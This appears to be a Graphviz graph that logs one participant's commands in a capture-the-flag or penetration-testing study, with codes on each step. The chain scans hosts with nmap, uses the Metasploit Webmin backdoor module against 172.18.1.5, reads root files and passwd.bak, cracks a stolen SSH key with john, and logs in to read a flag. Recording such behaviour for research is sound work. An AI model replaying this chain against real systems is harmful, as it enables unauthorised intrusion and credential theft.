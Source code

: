 // creating graph for user: 56
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.15 A0 A1 "]
	1 [label="nmap -Pn 172.18.1.15 A0 A1 "]
	2 [label="nmap -Pn -p- 172.18.1.15 A0 A1 "]
	3 [label="ls A10 "]
	4 [label="nmap 172.18.1.5 A0 M0 A1 "]
	5 [label="nmap -sC 172.18.1.5 V0 "]
	6 [label="nmap -sV 172.18.1.5 A1 M1 "]
	7 [label="nmap -sC -sV -p 10000 172.18.1.5 V1 "]
	8 [label="msfconsole A2 M2 "]
	9 [label="search miniserv A3 "]
	10 [label="search Miniserv A3 "]
	11 [label="search 1.920 A3 "]
	12 [label="search webmin A3 M3 "]
	13 [label="searchsploit webmin V3 "]
	14 [label="searchsploit -m exploits/linux/remote/47230.rb A8 M8 "]
	15 [label="nano /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	16 [label="chmod +x /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	17 [label="cd /usr/share/exploitdb/exploits/linux/remote/ V8 "]
	18 [label="ls A10 "]
	20 [label="use /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	21 [label="search 1.920 A3 "]
	25 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	26 [label="show options A5 M5 "]
	27 [label="set LHOST=10.1.135.83 A6 M6 "]
	28 [label="show options  V5 "]
	29 [label="set LHOST=10.1.153.83 V6 "]
	30 [label="set LHOST 10.1.153.83 V6 "]
	31 [label="exploit V8 "]
	32 [label="show options V5 "]
	33 [label="set RHOSTS 172.18.1.5 V6 "]
	34 [label="exploit V8 "]
	35 [label="set RPORT 10000 V6 "]
	36 [label="exploit  V8 "]
	37 [label="show options  V5 "]
	38 [label="set LHOST 192.168.129.103 V6 "]
	39 [label="exploit  V8 "]
	40 [label="cat /root/flag A1 A9 A11 A12 A17 "]
	41 [label="cd /root/  A10 "]
	42 [label="cat config A1 A9 A11 A12 A17 "]
	43 [label="cat webmin.schema V1 "]
	44 [label="cat help A1 A9 A11 A12 A17 "]
	45 [label="ls A10 "]
	46 [label="cat module.info.cz A1 A9 A11 A12 A17 "]
	47 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	48 [label="cat config A1 A9 A11 A12 A17 "]
	49 [label="ls A10 "]
	50 [label="cat webmin.schema V1 "]
	51 [label="ls A10 "]
	52 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	53 [label="cat backup_config.pl A1 A9 A11 A12 A17 "]
	54 [label="ls -la A10 "]
	55 [label="cat config.info.hr A1 A9 A11 A12 A17 "]
	56 [label="ls A10 "]
	57 [label="find /root/*[0-9][0-9][0-9][0-0][0-9] A10 "]
	58 [label="find /root/*[0-9][0-9][0-9][0-0][0-9]* A10 "]
	60 [label="wget http://raw.githubusercontent.com/petrmarinec/awdawd/master/FILE A4 "]
	61 [label="ls A10 "]
	62 [label="cat FILE A1 A9 A11 A12 A17 "]
	64 [label="ls A10 "]
	67 [label="ls A10 "]
	68 [label="cat WARNING-READ-ME.txt A9 M9 A11 A12 A17 "]
	70 [label="nmap 172.18.1.5/24 V0 "]
	73 [label="nmap 172.18.1.5 V0 "]
	74 [label="nmap 172.18.1.5/24 V0 "]
	75 [label="nmap 172.18.1.1 A0 A1 "]
	76 [label="nmap 172.18.1.1/24 A0 A1 "]
	77 [label="nmap 172.18.1.5 V0 "]
	78 [label="ls A10 "]
	79 [label="cat WARNIN-READ-ME.txt A1 A9 A11 A12 A17 "]
	80 [label="cat WARNING-READ-ME.txt V9 "]
	81 [label="ls A10 "]
	83 [label="ls A10 "]
	84 [label="cat WARNING-READ-ME.txt V9 "]
	85 [label="ls A10 "]
	88 [label="apt get-install nmap A0 A1 "]
	89 [label="nmap A0 A1 "]
	90 [label="ls A10 "]
	92 [label="ls A10 "]
	94 [label="ls A10 "]
	95 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	100 [label="ls A10 "]
	102 [label="ls A10 "]
	104 [label="ls A10 "]
	106 [label="ls A10 "]
	108 [label="ls A10 "]
	109 [label="ls -la A10 "]
	110 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	112 [label="ls A10 "]
	114 [label="ls A10 "]
	117 [label="ls A10 "]
	120 [label="ls A10 "]
	124 [label="ls A10 "]
	126 [label="ls A10 "]
	129 [label="ls A10 "]
	130 [label="ls A10 "]
	131 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	132 [label="ls A10 "]
	133 [label="nmap A0 A1 "]
	134 [label="ls A10 "]
	136 [label="ls A10 "]
	138 [label="ls A10 "]
	140 [label="ls A10 "]
	141 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	143 [label="ls A10 "]
	146 [label="ls A10 "]
	148 [label="ls A10 "]
	150 [label="ls A10 "]
	152 [label="ls A10 "]
	153 [label="ls -la A10 "]
	154 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	156 [label="ls A10 "]
	158 [label="ls A10 "]
	159 [label="ls -la A10 "]
	160 [label="cat .profile A1 A9 A11 A12 A17 "]
	162 [label="ls A10 "]
	164 [label="ls -la A10 "]
	165 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	166 [label="ls A10 "]
	167 [label="ls -la A10 "]
	168 [label="cat .ansible A1 A9 A11 A12 A17 "]
	170 [label="ls A10 "]
	172 [label="ls A10 "]
	173 [label="ls -la A10 "]
	175 [label="ls -la A10 "]
	176 [label="ls A10 "]
	178 [label="ls A10 "]
	179 [label="ls -la A10 "]
	180 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	181 [label="ls A10 "]
	182 [label="msfconsole V2 "]
	183 [label="use unix/webapp/webmin_backdoor V4 "]
	184 [label="show options V5 "]
	185 [label="set RHOSTS 172.18.1.5 V6 "]
	186 [label="set LHOST 10.1.135.83 V6 "]
	187 [label="set RPORT 10000 V6 "]
	188 [label="cat .progle A1 A9 A11 A12 A17 "]
	189 [label="ls A10 "]
	193 [label="ls A10 "]
	195 [label="ls A10 "]
	197 [label="ls A10 "]
	198 [label="ls -la A10 "]
	199 [label="cat .bash_history A11 M11 A12 A17 "]
	201 [label="ls A10 "]
	203 [label="ls A10 "]
	205 [label="ls A10 "]
	206 [label="cat blocked A1 A9 A11 A12 A17 "]
	209 [label="ls A10 "]
	211 [label="ls A10 "]
	213 [label="ls A10 "]
	215 [label="ls A10 "]
	216 [label="ssh 10.1.17.4 A16 "]
	217 [label="ls A10 "]
	219 [label="ls A10 "]
	220 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	221 [label="ls A10 "]
	224 [label="sls A10 "]
	225 [label="ls A10 "]
	227 [label="ls A10 "]
	230 [label="ls A10 "]
	231 [label="cat user.log A1 A4 A9 A11 A12 A17 "]
	232 [label="ls A10 "]
	235 [label="ls A10 "]
	238 [label="sls A10 "]
	240 [label="ls A10 "]
	242 [label="ls A10 "]
	244 [label="find / -perm -4000 2>/dev/null A10 "]
	245 [label="ls A10 "]
	247 [label="ls A10 "]
	249 [label="ls A10 "]
	251 [label="ls A10 "]
	252 [label="ls A10 "]
	253 [label="ls A10 "]
	255 [label="ls A10 "]
	257 [label="cd .ssh A16 "]
	258 [label="ls A10 "]
	259 [label="exploit V8 "]
	260 [label="ssh -i id_rsa -l eve 10.1.17.4 A16 M16 "]
	262 [label="ls A10 "]
	263 [label="cd .ssh A16 "]
	265 [label="ls A10 "]
	266 [label="ssh -i id_rsa eve@10.1.17.4 V16 "]
	267 [label="cat id_rsa A12 M12 A17 "]
	268 [label="ssh2john A14 A16 "]
	269 [label="cat id_rsa V12 "]
	273 [label="ls A10 "]
	274 [label="ss2john.py id_rsa A14 "]
	275 [label="python ssh2john.py id_rsa A13 M13 A14 A16 "]
	276 [label="python ssh2john.py id_rsa > hash V13 "]
	277 [label="john hash A14 "]
	278 [label="ls A10 "]
	279 [label="ls A10 "]
	280 [label="cat id_rsa V12 "]
	281 [label="john hash A14 "]
	283 [label="ls A10 "]
	285 [label="ls A10 "]
	286 [label="john /root/hash --wordlist=rockyou.txt A14 M14 "]
	287 [label="ssh -i id_rsa eve@10.1.17.4 V16 "]
	288 [label="ls A10 "]
	289 [label="cat top-secret A1 A9 A11 A12 A17 "]
	291 [label="ls A10 "]
	292 [label="cat flag.txt A17 M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 64 [constraint=false]
	64 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 70 [constraint=false]
	70 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 92 [constraint=false]
	92 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 100 [constraint=false]
	100 -> 102 [constraint=false]
	102 -> 104 [constraint=false]
	104 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 112 [constraint=false]
	112 -> 114 [constraint=false]
	114 -> 117 [constraint=false]
	117 -> 120 [constraint=false]
	120 -> 124 [constraint=false]
	124 -> 126 [constraint=false]
	126 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 136 [constraint=false]
	136 -> 138 [constraint=false]
	138 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 143 [constraint=false]
	143 -> 146 [constraint=false]
	146 -> 148 [constraint=false]
	148 -> 150 [constraint=false]
	150 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 156 [constraint=false]
	156 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 162 [constraint=false]
	162 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 170 [constraint=false]
	170 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 193 [constraint=false]
	193 -> 195 [constraint=false]
	195 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 201 [constraint=false]
	201 -> 203 [constraint=false]
	203 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 209 [constraint=false]
	209 -> 211 [constraint=false]
	211 -> 213 [constraint=false]
	213 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 227 [constraint=false]
	227 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 235 [constraint=false]
	235 -> 238 [constraint=false]
	238 -> 240 [constraint=false]
	240 -> 242 [constraint=false]
	242 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 247 [constraint=false]
	247 -> 249 [constraint=false]
	249 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 255 [constraint=false]
	255 -> 257 [constraint=false]
	257 -> 258 [constraint=false]
	258 -> 259 [constraint=false]
	259 -> 260 [constraint=false]
	260 -> 262 [constraint=false]
	262 -> 263 [constraint=false]
	263 -> 265 [constraint=false]
	265 -> 266 [constraint=false]
	266 -> 267 [constraint=false]
	267 -> 268 [constraint=false]
	268 -> 269 [constraint=false]
	269 -> 273 [constraint=false]
	273 -> 274 [constraint=false]
	274 -> 275 [constraint=false]
	275 -> 276 [constraint=false]
	276 -> 277 [constraint=false]
	277 -> 278 [constraint=false]
	278 -> 279 [constraint=false]
	279 -> 280 [constraint=false]
	280 -> 281 [constraint=false]
	281 -> 283 [constraint=false]
	283 -> 285 [constraint=false]
	285 -> 286 [constraint=false]
	286 -> 287 [constraint=false]
	287 -> 288 [constraint=false]
	288 -> 289 [constraint=false]
	289 -> 291 [constraint=false]
	291 -> 292 [constraint=false]
	rankdir=LR
}

